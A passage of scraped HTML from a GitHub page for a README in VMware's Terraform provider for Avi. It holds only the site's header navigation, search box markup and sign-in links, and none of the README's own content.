      Events <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Community forum&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Community forum;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="dbb0183218dd895eb02a83700084e6fdcb3de761c6053aaa9e7bfd3a198ae03e" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to Community forum&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Community forum;&quot;}" href="https://github.community">
      Community forum <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to GitHub Education&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:GitHub Education;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="1606e3d5522eb14fd01d57cccee86db8cb49421544f1fa33ef1fe3877860d059" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to GitHub Education&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:GitHub Education;&quot;}" href="https://education.github.com">
      GitHub Education <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to GitHub Stars program&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:GitHub Stars program;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="83a05a4b1d95125e7eb7f0bba89df45559109263bf445a12cd9e5fd9b2e009f6" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Explore&quot;,&quot;action&quot;:&quot;click to go to GitHub Stars program&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:GitHub Stars program;&quot;}" href="https://stars.github.com">
      GitHub Stars program <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

        </ul>
      </div>
    </details>
</li>


            <li class="mr-0 mr-lg-3 position-relative flex-wrap flex-justify-between flex-items-center border-bottom border-lg-bottom-0 d-block d-lg-flex flex-lg-nowrap flex-lg-items-center">
    <a class="HeaderMenu-link no-underline py-3 d-block d-lg-inline-block" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header menu top item (logged out)&quot;,&quot;action&quot;:&quot;click to go to Marketplace&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Marketplace;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="cbe3811a8068434db2662bb2a99c0509778b7ae627aa2781bf7ffb2ebac87f83" data-analytics-event="{&quot;category&quot;:&quot;Header menu top item (logged out)&quot;,&quot;action&quot;:&quot;click to go to Marketplace&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Marketplace;&quot;}" href="/marketplace">Marketplace</a>
</li>


            <li class="mr-0 mr-lg-3 position-relative flex-wrap flex-justify-between flex-items-center border-bottom border-lg-bottom-0 d-block d-lg-flex flex-lg-nowrap flex-lg-items-center">
    <details class="HeaderMenu-details details-overlay details-reset width-full">
      <summary class="HeaderMenu-summary HeaderMenu-link px-0 py-3 border-0 no-wrap d-block d-lg-inline-block">
        Pricing
        <svg x="0" y="0" viewBox="0 0 14 8" xml:space="preserve" fill="none" class="icon-chevon-down-mktg position-absolute position-lg-relative"><path d="M1,1l6.2,6L13,1"></path></svg>
      </summary>
      <div class="dropdown-menu flex-auto rounded px-0 mt-0 pb-4 p-lg-4 position-relative position-lg-absolute left-0 left-lg-n4">
        <ul class="list-style-none f5 pb-1">
              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--primary text-bold py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Pricing&quot;,&quot;action&quot;:&quot;click to go to Plans&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Plans;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="8d2ba2b7c68d5e375b2d2c1fa4f74df79b3489d7d568632e4b35d773805bf7de" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Pricing&quot;,&quot;action&quot;:&quot;click to go to Plans&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Plans;&quot;}" href="/pricing">
      Plans <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Pricing&quot;,&quot;action&quot;:&quot;click to go to Compare plans&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Compare plans;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="94bfa3aabba5dcf22d83a4ba5c1cf6ef8445c4bfd5329ed9679fcb5361e7d5e6" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Pricing&quot;,&quot;action&quot;:&quot;click to go to Compare plans&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Compare plans;&quot;}" href="/pricing#compare-features">
      Compare plans <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--secondary py-2" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Pricing&quot;,&quot;action&quot;:&quot;click to go to Contact Sales&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Contact Sales;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="c7776230ea8631a766f71aec5e4e99dd8eb4ea96d05761e32446a1953ac5d188" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Pricing&quot;,&quot;action&quot;:&quot;click to go to Contact Sales&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Contact Sales;&quot;}" href="https://github.com/enterprise/contact">
      Contact Sales <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

              <li>
    <a class="lh-condensed-ultra d-block no-underline Bump-link--hover position-relative Link--primary text-bold border-top pt-4 pb-2 mt-3" data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Header dropdown (logged out), Pricing&quot;,&quot;action&quot;:&quot;click to go to Education&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Education;&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="feddfe22973c4121c6332db458cb1967f5d537da4b757f5adbdccd98af3d5de6" data-analytics-event="{&quot;category&quot;:&quot;Header dropdown (logged out), Pricing&quot;,&quot;action&quot;:&quot;click to go to Education&quot;,&quot;label&quot;:&quot;ref_page:/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc;ref_cta:Education;&quot;}" href="https://education.github.com">
      Education <span class="Bump-link-symbol position-absolute right-0 text-normal color-fg-muted pr-3">&rarr;</span>
</a>  </li>

        </ul>
      </div>
    </details>
</li>

          </ul>
        </nav>

      <div class="d-lg-flex flex-items-center px-3 px-lg-0 text-center text-lg-left">
          <div class="d-lg-flex min-width-0 mb-3 mb-lg-0">
            



<div class="header-search flex-auto js-site-search position-relative flex-self-stretch flex-md-self-auto mb-3 mb-md-0 mr-0 mr-md-3 scoped-search site-scoped-search js-jump-to"
>
  <div class="position-relative">
    <!-- '"` --><!-- </textarea></xmp> --></option></form><form class="js-site-search-form" role="search" aria-label="Site" data-scope-type="Repository" data-scope-id="196468806" data-scoped-search-url="/vmware/terraform-provider-avi/search" data-owner-scoped-search-url="/orgs/vmware/search" data-unscoped-search-url="/search" action="/vmware/terraform-provider-avi/search" accept-charset="UTF-8" method="get">
      <label class="form-control input-sm header-search-wrapper p-0 js-chromeless-input-container header-search-wrapper-jump-to position-relative d-flex flex-justify-between flex-items-center">
        <input type="text"
          class="form-control input-sm header-search-input jump-to-field js-jump-to-field js-site-search-focus js-site-search-field is-clearable"
          data-hotkey=s,/
          name="q"
          data-test-selector="nav-search-input"
          placeholder="Search"
          data-unscoped-placeholder="Search GitHub"
          data-scoped-placeholder="Search"
          autocapitalize="off"
          role="combobox"
          aria-haspopup="listbox"
          aria-expanded="false"
          aria-autocomplete="list"
          aria-controls="jump-to-results"
          aria-label="Search"
          data-jump-to-suggestions-path="/_graphql/GetSuggestedNavigationDestinations"
          spellcheck="false"
          autocomplete="off"
        >
        <input type="hidden" data-csrf="true" class="js-data-jump-to-suggestions-path-csrf" value="KC2gGnDEjplPv/luFf5QlBpoIghOwPLqk2DeELPclqLNLpj1v+CGiRlKvcP/8XzM+qDo26GDirhqOAT1SNqjpQ==" />
        <input type="hidden" class="js-site-search-type-field" name="type" >
            <svg xmlns="http://www.w3.org/2000/svg" width="22" height="20" aria-hidden="true" class="mr-1 header-search-key-slash"><path fill="none" stroke="#979A9C" opacity=".4" d="M3.5.5h12c1.7 0 3 1.3 3 3v13c0 1.7-1.3 3-3 3h-12c-1.7 0-3-1.3-3-3v-13c0-1.7 1.3-3 3-3z"></path><path fill="#979A9C" d="M11.8 6L8 15.1h-.9L10.8 6h1z"></path></svg>


          <div class="Box position-absolute overflow-hidden d-none jump-to-suggestions js-jump-to-suggestions-container">
            
<ul class="d-none js-jump-to-suggestions-template-container">
  

<li class="d-flex flex-justify-start flex-items-center p-0 f5 navigation-item js-navigation-item js-jump-to-suggestion" role="option">
  <a tabindex="-1" class="no-underline d-flex flex-auto flex-items-center jump-to-suggestions-path js-jump-to-suggestion-path js-navigation-open p-2" href="" data-item-type="suggestion">
    <div class="jump-to-octicon js-jump-to-octicon flex-shrink-0 mr-2 text-center d-none">
      <svg title="Repository" aria-label="Repository" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-repo js-jump-to-octicon-repo d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M2 2.5A2.5 2.5 0 014.5 0h8.75a.75.75 0 01.75.75v12.5a.75.75 0 01-.75.75h-2.5a.75.75 0 110-1.5h1.75v-2h-8a1 1 0 00-.714 1.7.75.75 0 01-1.072 1.05A2.495 2.495 0 012 11.5v-9zm10.5-1V9h-8c-.356 0-.694.074-1 .208V2.5a1 1 0 011-1h8zM5 12.25v3.25a.25.25 0 00.4.2l1.45-1.087a.25.25 0 01.3 0L8.6 15.7a.25.25 0 00.4-.2v-3.25a.25.25 0 00-.25-.25h-3.5a.25.25 0 00-.25.25z"></path>
</svg>
      <svg title="Project" aria-label="Project" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-project js-jump-to-octicon-project d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M1.75 0A1.75 1.75 0 000 1.75v12.5C0 15.216.784 16 1.75 16h12.5A1.75 1.75 0 0016 14.25V1.75A1.75 1.75 0 0014.25 0H1.75zM1.5 1.75a.25.25 0 01.25-.25h12.5a.25.25 0 01.25.25v12.5a.25.25 0 01-.25.25H1.75a.25.25 0 01-.25-.25V1.75zM11.75 3a.75.75 0 00-.75.75v7.5a.75.75 0 001.5 0v-7.5a.75.75 0 00-.75-.75zm-8.25.75a.75.75 0 011.5 0v5.5a.75.75 0 01-1.5 0v-5.5zM8 3a.75.75 0 00-.75.75v3.5a.75.75 0 001.5 0v-3.5A.75.75 0 008 3z"></path>
</svg>
      <svg title="Search" aria-label="Search" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-search js-jump-to-octicon-search d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M11.5 7a4.499 4.499 0 11-8.998 0A4.499 4.499 0 0111.5 7zm-.82 4.74a6 6 0 111.06-1.06l3.04 3.04a.75.75 0 11-1.06 1.06l-3.04-3.04z"></path>
</svg>
    </div>

    <img class="avatar mr-2 flex-shrink-0 js-jump-to-suggestion-avatar d-none" alt="" aria-label="Team" src="" width="28" height="28">

    <div class="jump-to-suggestion-name js-jump-to-suggestion-name flex-auto overflow-hidden text-left no-wrap css-truncate css-truncate-target">
    </div>

    <div class="border rounded-1 flex-shrink-0 color-bg-subtle px-1 color-fg-muted ml-1 f6 d-none js-jump-to-badge-search">
      <span class="js-jump-to-badge-search-text-default d-none" aria-label="in this repository">
        In this repository
      </span>
      <span class="js-jump-to-badge-search-text-global d-none" aria-label="in all of GitHub">
        All GitHub
      </span>
      <span aria-hidden="true" class="d-inline-block ml-1 v-align-middle">↵</span>
    </div>

    <div aria-hidden="true" class="border rounded-1 flex-shrink-0 color-bg-subtle px-1 color-fg-muted ml-1 f6 d-none d-on-nav-focus js-jump-to-badge-jump">
      Jump to
      <span class="d-inline-block ml-1 v-align-middle">↵</span>
    </div>
  </a>
</li>

</ul>

<ul class="d-none js-jump-to-no-results-template-container">
  <li class="d-flex flex-justify-center flex-items-center f5 d-none js-jump-to-suggestion p-2">
    <span class="color-fg-muted">No suggested jump to results</span>
  </li>
</ul>

<ul id="jump-to-results" role="listbox" class="p-0 m-0 js-navigation-container jump-to-suggestions-results-container js-jump-to-suggestions-results-container">
  

<li class="d-flex flex-justify-start flex-items-center p-0 f5 navigation-item js-navigation-item js-jump-to-scoped-search d-none" role="option">
  <a tabindex="-1" class="no-underline d-flex flex-auto flex-items-center jump-to-suggestions-path js-jump-to-suggestion-path js-navigation-open p-2" href="" data-item-type="scoped_search">
    <div class="jump-to-octicon js-jump-to-octicon flex-shrink-0 mr-2 text-center d-none">
      <svg title="Repository" aria-label="Repository" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-repo js-jump-to-octicon-repo d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M2 2.5A2.5 2.5 0 014.5 0h8.75a.75.75 0 01.75.75v12.5a.75.75 0 01-.75.75h-2.5a.75.75 0 110-1.5h1.75v-2h-8a1 1 0 00-.714 1.7.75.75 0 01-1.072 1.05A2.495 2.495 0 012 11.5v-9zm10.5-1V9h-8c-.356 0-.694.074-1 .208V2.5a1 1 0 011-1h8zM5 12.25v3.25a.25.25 0 00.4.2l1.45-1.087a.25.25 0 01.3 0L8.6 15.7a.25.25 0 00.4-.2v-3.25a.25.25 0 00-.25-.25h-3.5a.25.25 0 00-.25.25z"></path>
</svg>
      <svg title="Project" aria-label="Project" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-project js-jump-to-octicon-project d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M1.75 0A1.75 1.75 0 000 1.75v12.5C0 15.216.784 16 1.75 16h12.5A1.75 1.75 0 0016 14.25V1.75A1.75 1.75 0 0014.25 0H1.75zM1.5 1.75a.25.25 0 01.25-.25h12.5a.25.25 0 01.25.25v12.5a.25.25 0 01-.25.25H1.75a.25.25 0 01-.25-.25V1.75zM11.75 3a.75.75 0 00-.75.75v7.5a.75.75 0 001.5 0v-7.5a.75.75 0 00-.75-.75zm-8.25.75a.75.75 0 011.5 0v5.5a.75.75 0 01-1.5 0v-5.5zM8 3a.75.75 0 00-.75.75v3.5a.75.75 0 001.5 0v-3.5A.75.75 0 008 3z"></path>
</svg>
      <svg title="Search" aria-label="Search" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-search js-jump-to-octicon-search d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M11.5 7a4.499 4.499 0 11-8.998 0A4.499 4.499 0 0111.5 7zm-.82 4.74a6 6 0 111.06-1.06l3.04 3.04a.75.75 0 11-1.06 1.06l-3.04-3.04z"></path>
</svg>
    </div>

    <img class="avatar mr-2 flex-shrink-0 js-jump-to-suggestion-avatar d-none" alt="" aria-label="Team" src="" width="28" height="28">

    <div class="jump-to-suggestion-name js-jump-to-suggestion-name flex-auto overflow-hidden text-left no-wrap css-truncate css-truncate-target">
    </div>

    <div class="border rounded-1 flex-shrink-0 color-bg-subtle px-1 color-fg-muted ml-1 f6 d-none js-jump-to-badge-search">
      <span class="js-jump-to-badge-search-text-default d-none" aria-label="in this repository">
        In this repository
      </span>
      <span class="js-jump-to-badge-search-text-global d-none" aria-label="in all of GitHub">
        All GitHub
      </span>
      <span aria-hidden="true" class="d-inline-block ml-1 v-align-middle">↵</span>
    </div>

    <div aria-hidden="true" class="border rounded-1 flex-shrink-0 color-bg-subtle px-1 color-fg-muted ml-1 f6 d-none d-on-nav-focus js-jump-to-badge-jump">
      Jump to
      <span class="d-inline-block ml-1 v-align-middle">↵</span>
    </div>
  </a>
</li>

  

<li class="d-flex flex-justify-start flex-items-center p-0 f5 navigation-item js-navigation-item js-jump-to-owner-scoped-search d-none" role="option">
  <a tabindex="-1" class="no-underline d-flex flex-auto flex-items-center jump-to-suggestions-path js-jump-to-suggestion-path js-navigation-open p-2" href="" data-item-type="owner_scoped_search">
    <div class="jump-to-octicon js-jump-to-octicon flex-shrink-0 mr-2 text-center d-none">
      <svg title="Repository" aria-label="Repository" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-repo js-jump-to-octicon-repo d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M2 2.5A2.5 2.5 0 014.5 0h8.75a.75.75 0 01.75.75v12.5a.75.75 0 01-.75.75h-2.5a.75.75 0 110-1.5h1.75v-2h-8a1 1 0 00-.714 1.7.75.75 0 01-1.072 1.05A2.495 2.495 0 012 11.5v-9zm10.5-1V9h-8c-.356 0-.694.074-1 .208V2.5a1 1 0 011-1h8zM5 12.25v3.25a.25.25 0 00.4.2l1.45-1.087a.25.25 0 01.3 0L8.6 15.7a.25.25 0 00.4-.2v-3.25a.25.25 0 00-.25-.25h-3.5a.25.25 0 00-.25.25z"></path>
</svg>
      <svg title="Project" aria-label="Project" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-project js-jump-to-octicon-project d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M1.75 0A1.75 1.75 0 000 1.75v12.5C0 15.216.784 16 1.75 16h12.5A1.75 1.75 0 0016 14.25V1.75A1.75 1.75 0 0014.25 0H1.75zM1.5 1.75a.25.25 0 01.25-.25h12.5a.25.25 0 01.25.25v12.5a.25.25 0 01-.25.25H1.75a.25.25 0 01-.25-.25V1.75zM11.75 3a.75.75 0 00-.75.75v7.5a.75.75 0 001.5 0v-7.5a.75.75 0 00-.75-.75zm-8.25.75a.75.75 0 011.5 0v5.5a.75.75 0 01-1.5 0v-5.5zM8 3a.75.75 0 00-.75.75v3.5a.75.75 0 001.5 0v-3.5A.75.75 0 008 3z"></path>
</svg>
      <svg title="Search" aria-label="Search" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-search js-jump-to-octicon-search d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M11.5 7a4.499 4.499 0 11-8.998 0A4.499 4.499 0 0111.5 7zm-.82 4.74a6 6 0 111.06-1.06l3.04 3.04a.75.75 0 11-1.06 1.06l-3.04-3.04z"></path>
</svg>
    </div>

    <img class="avatar mr-2 flex-shrink-0 js-jump-to-suggestion-avatar d-none" alt="" aria-label="Team" src="" width="28" height="28">

    <div class="jump-to-suggestion-name js-jump-to-suggestion-name flex-auto overflow-hidden text-left no-wrap css-truncate css-truncate-target">
    </div>

    <div class="border rounded-1 flex-shrink-0 color-bg-subtle px-1 color-fg-muted ml-1 f6 d-none js-jump-to-badge-search">
      <span class="js-jump-to-badge-search-text-default d-none" aria-label="in this organization">
        In this organization
      </span>
      <span class="js-jump-to-badge-search-text-global d-none" aria-label="in all of GitHub">
        All GitHub
      </span>
      <span aria-hidden="true" class="d-inline-block ml-1 v-align-middle">↵</span>
    </div>

    <div aria-hidden="true" class="border rounded-1 flex-shrink-0 color-bg-subtle px-1 color-fg-muted ml-1 f6 d-none d-on-nav-focus js-jump-to-badge-jump">
      Jump to
      <span class="d-inline-block ml-1 v-align-middle">↵</span>
    </div>
  </a>
</li>

  

<li class="d-flex flex-justify-start flex-items-center p-0 f5 navigation-item js-navigation-item js-jump-to-global-search d-none" role="option">
  <a tabindex="-1" class="no-underline d-flex flex-auto flex-items-center jump-to-suggestions-path js-jump-to-suggestion-path js-navigation-open p-2" href="" data-item-type="global_search">
    <div class="jump-to-octicon js-jump-to-octicon flex-shrink-0 mr-2 text-center d-none">
      <svg title="Repository" aria-label="Repository" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-repo js-jump-to-octicon-repo d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M2 2.5A2.5 2.5 0 014.5 0h8.75a.75.75 0 01.75.75v12.5a.75.75 0 01-.75.75h-2.5a.75.75 0 110-1.5h1.75v-2h-8a1 1 0 00-.714 1.7.75.75 0 01-1.072 1.05A2.495 2.495 0 012 11.5v-9zm10.5-1V9h-8c-.356 0-.694.074-1 .208V2.5a1 1 0 011-1h8zM5 12.25v3.25a.25.25 0 00.4.2l1.45-1.087a.25.25 0 01.3 0L8.6 15.7a.25.25 0 00.4-.2v-3.25a.25.25 0 00-.25-.25h-3.5a.25.25 0 00-.25.25z"></path>
</svg>
      <svg title="Project" aria-label="Project" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-project js-jump-to-octicon-project d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M1.75 0A1.75 1.75 0 000 1.75v12.5C0 15.216.784 16 1.75 16h12.5A1.75 1.75 0 0016 14.25V1.75A1.75 1.75 0 0014.25 0H1.75zM1.5 1.75a.25.25 0 01.25-.25h12.5a.25.25 0 01.25.25v12.5a.25.25 0 01-.25.25H1.75a.25.25 0 01-.25-.25V1.75zM11.75 3a.75.75 0 00-.75.75v7.5a.75.75 0 001.5 0v-7.5a.75.75 0 00-.75-.75zm-8.25.75a.75.75 0 011.5 0v5.5a.75.75 0 01-1.5 0v-5.5zM8 3a.75.75 0 00-.75.75v3.5a.75.75 0 001.5 0v-3.5A.75.75 0 008 3z"></path>
</svg>
      <svg title="Search" aria-label="Search" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-search js-jump-to-octicon-search d-none flex-shrink-0">
    <path fill-rule="evenodd" d="M11.5 7a4.499 4.499 0 11-8.998 0A4.499 4.499 0 0111.5 7zm-.82 4.74a6 6 0 111.06-1.06l3.04 3.04a.75.75 0 11-1.06 1.06l-3.04-3.04z"></path>
</svg>
    </div>

    <img class="avatar mr-2 flex-shrink-0 js-jump-to-suggestion-avatar d-none" alt="" aria-label="Team" src="" width="28" height="28">

    <div class="jump-to-suggestion-name js-jump-to-suggestion-name flex-auto overflow-hidden text-left no-wrap css-truncate css-truncate-target">
    </div>

    <div class="border rounded-1 flex-shrink-0 color-bg-subtle px-1 color-fg-muted ml-1 f6 d-none js-jump-to-badge-search">
      <span class="js-jump-to-badge-search-text-default d-none" aria-label="in this repository">
        In this repository
      </span>
      <span class="js-jump-to-badge-search-text-global d-none" aria-label="in all of GitHub">
        All GitHub
      </span>
      <span aria-hidden="true" class="d-inline-block ml-1 v-align-middle">↵</span>
    </div>

    <div aria-hidden="true" class="border rounded-1 flex-shrink-0 color-bg-subtle px-1 color-fg-muted ml-1 f6 d-none d-on-nav-focus js-jump-to-badge-jump">
      Jump to
      <span class="d-inline-block ml-1 v-align-middle">↵</span>
    </div>
  </a>
</li>


</ul>

          </div>
      </label>
</form>  </div>
</div>

          </div>

        <div class="position-relative mr-3 mb-4 mb-lg-0 d-inline-block">
          <a href="/login?return_to=https%3A%2F%2Fgithub.com%2Fvmware%2Fterraform-provider-avi%2Fblob%2F2d7d39e536a50fea70fdad2828540b6f04301807%2Fexamples%2Faws%2Fcluster_stages%2F6_avi_app%2FREADME.adoc"
            class="HeaderMenu-link flex-shrink-0 no-underline"
            data-hydro-click="{&quot;event_type&quot;:&quot;authentication.click&quot;,&quot;payload&quot;:{&quot;location_in_page&quot;:&quot;site header menu&quot;,&quot;repository_id&quot;:null,&quot;auth_type&quot;:&quot;SIGN_UP&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="83652c87c5265b984ba0493dbaba5649ab4736f6f8dad56fc55e796274ccf865"
            data-ga-click="(Logged out) Header, clicked Sign in, text:sign-in">
            Sign in
          </a>
        </div>

          <a href="/signup?ref_cta=Sign+up&amp;ref_loc=header+logged+out&amp;ref_page=%2F%3Cuser-name%3E%2F%3Crepo-name%3E%2Fblob%2Fshow&amp;source=header-repo&amp;source_repo=vmware%2Fterraform-provider-avi"
            class="HeaderMenu-link flex-shrink-0 d-inline-block no-underline border color-border-default rounded px-2 py-1"
